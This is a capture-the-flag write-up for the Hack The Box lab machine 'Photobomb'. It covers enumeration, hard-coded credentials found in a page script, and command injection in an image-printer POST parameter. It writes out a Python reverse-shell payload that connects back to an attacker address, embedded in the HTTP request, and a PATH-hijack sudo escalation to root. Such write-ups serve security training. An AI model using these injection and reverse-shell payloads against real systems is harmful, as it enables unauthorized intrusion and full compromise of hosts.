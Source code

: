 ```yaml
---
cover: ../../../.gitbook/assets/Photobomb.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Photobomb

I scan the remote host ...

```sh
nmap -sV -sC -v -p- 10.10.11.182
```

... and I get this result :&#x20;

<figure><img src="../../../.gitbook/assets/photobomb-nmap.png" alt=""><figcaption></figcaption></figure>

There is a web service running on `port 80` with `nginx/1.18.0` and the operating system is `Ubuntu`. I add the Local DNS Name :

```sh
echo '10.10.11.182 photobomb.htb' | tee -a /etc/hosts
```

I try to enumerate website :

```sh
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://photobomb.htb
```

I get one subdirectory :

<figure><img src="../../../.gitbook/assets/photobomb-gobuster.png" alt=""><figcaption></figcaption></figure>

When I load this page, it asks me a login and a password. If I inspect the web page, I can see there is a script running on :&#x20;

<figure><img src="../../../.gitbook/assets/photobomb-find-script.png" alt=""><figcaption></figcaption></figure>

In this script, there are some clear credentials :&#x20;

<figure><img src="../../../.gitbook/assets/photobomb-find-script-password.png" alt=""><figcaption></figcaption></figure>

I check the url `http://pH0t0:b0Mb!@photobomb.htb/printer`. I can download images, I open BurpSuite and grab the request, I can see there are 3 parameters :

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

I want inject some code to ping the local host from remote, thus I start a ICMP listener on the local host ...

```sh
tcpdump -i tun0
```

... then I modify the filetype parameter like this :

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ping+-c+3+10.10.14.9&dimensions=3000x2000
```

I receive ICMP requests on the local host :&#x20;

<figure><img src="../../../.gitbook/assets/photobomb-icmp.png" alt=""><figcaption></figcaption></figure>

I start a netcat listener to host the remote shell :

```sh
nc -lnvp 8888
```

I try to inject a reverse shell payload in the `filetype` parameter. The payload is :

```sh
export RHOST="10.10.14.17";
export RPORT=8888;

python3 -c 'import sys, socket, os, pty; s=socket.socket(); s.connect((os.getenv("RHOST"), int(os.getenv("RPORT")))); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("sh")'
```

And I insert it into the request :

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;export+RHOST="10.10.14.17";export+RPORT=8888;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in(0,1,2)];pty.spawn("sh")'&dimensions=3000x2000
```

When I send this request, I gain reverse shell on netcat :

```sh
cat /home/wizard/user.txt
```

Upgrade the shell :

```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
```

I check sudo permissions with `sudo -l` :&#x20;

<figure><img src="../../../.gitbook/assets/photobomb-sudo-permissions.png" alt=""><figcaption></figcaption></figure>

This file executes `/opt/.bashrc` :&#x20;

<figure><img src="../../../.gitbook/assets/photobomb-cleanup-content.png" alt=""><figcaption></figcaption></figure>

Look at the difference between original `.bashrc` and actual `.bashrc` :

```bash
diff /etc/bash.bashrc /opt/.bashrc
```

There is one interesting difference, `enable -n [ # ]` because it enables all file for the current PATH. I have to update the PATH to include a new file which executes a `/bin/bash` as root.

<figure><img src="../../../.gitbook/assets/photobomb-diff-bashrc.png" alt=""><figcaption></figcaption></figure>

I execute these commands :

```sh
echo '/bin/bash' | tee /tmp/[
chmod +x /tmp/[
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

I gain root privilege :

```sh
cat /root/root.txt
```
